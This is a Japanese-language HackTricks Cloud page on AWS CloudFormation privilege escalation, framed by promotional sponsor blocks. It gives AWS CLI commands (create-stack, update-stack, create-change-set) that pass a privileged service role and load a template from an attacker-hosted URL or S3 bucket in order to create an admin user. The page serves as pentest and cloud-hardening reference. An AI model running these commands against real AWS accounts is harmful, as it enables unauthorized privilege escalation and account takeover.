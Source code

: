 # AWS - Cloudformation Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## cloudformation

cloudformationについての詳細は以下をチェックしてください:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

**`iam:PassRole`** と **`cloudformation:CreateStack`** の権限を持つ攻撃者は、**CloudFormationスタックを作成する際に渡されたロールの権限を使用して**、アクションを実行しリソースを作成するCloudFormationテンプレートを作成することで**権限を昇格**することができます。
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
攻撃者のウェブサイトにあるテンプレートには、**管理者ユーザーを作成するなどの悪意のある行動を実行する**指示が含まれており、その資格情報を使用して自分のアクセス権をエスカレートさせます。

次のページには、追加の権限 **`cloudformation:DescribeStacks`** を持つ**悪用例**があります：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響：** 指定されたcloudformationサービスロールへのPrivesc。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

このケースでは、**既存のcloudformationスタックを悪用**して、前のシナリオと同様に、それを更新して権限をエスカレートすることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** 指定された cloudformation サービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っていても **`iam:PassRole` がない場合**、使用中のスタックを**更新**し、既に添付されている **IAM ロールを悪用**することができます。悪用の例については前のセクションを確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限は、スタックに対して**自分自身に `UpdateStack` 権限を与え**、攻撃を実行するために使用できます。

**潜在的な影響：** 既に添付されている cloudformation サービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**ロールを渡す権限と ChangeSet を作成 & 実行する権限**を持つ攻撃者は、CreateStack や UpdateStack と同様に、**新しい cloudformation スタックを作成/更新して cloudformation サービスロールを悪用**することができます。

以下の悪用は、スタックを作成するために **ChangeSet 権限**を使用する[**CreateStack の**](./#iam-passrole-cloudformation-createstack) **変種**です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限は、スタックに対して **自分自身に `ChangeSet` 権限を与える** ために使用でき、攻撃を実行することができます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール** を渡すことなく、既にアタッチされているものを **悪用する** だけです。パラメータを変更するだけです：
```
--change-set-type UPDATE
```
**潜在的な影響:** 既にアタッチされているcloudformationサービスロールへのPrivesc。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のcloudformationロールを悪用するためにStackSetsを作成/更新する可能性があります。

**潜在的な影響:** cloudformationサービスロールへのPrivesc。

### `cloudformation:UpdateStackSet`

攻撃者は、passRole権限なしでこの権限を悪用して、アタッチされたcloudformationロールを悪用するためにStackSetsを更新する可能性があります。

**潜在的な影響:** アタッチされたcloudformationロールへのPrivesc。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください**。

</details>
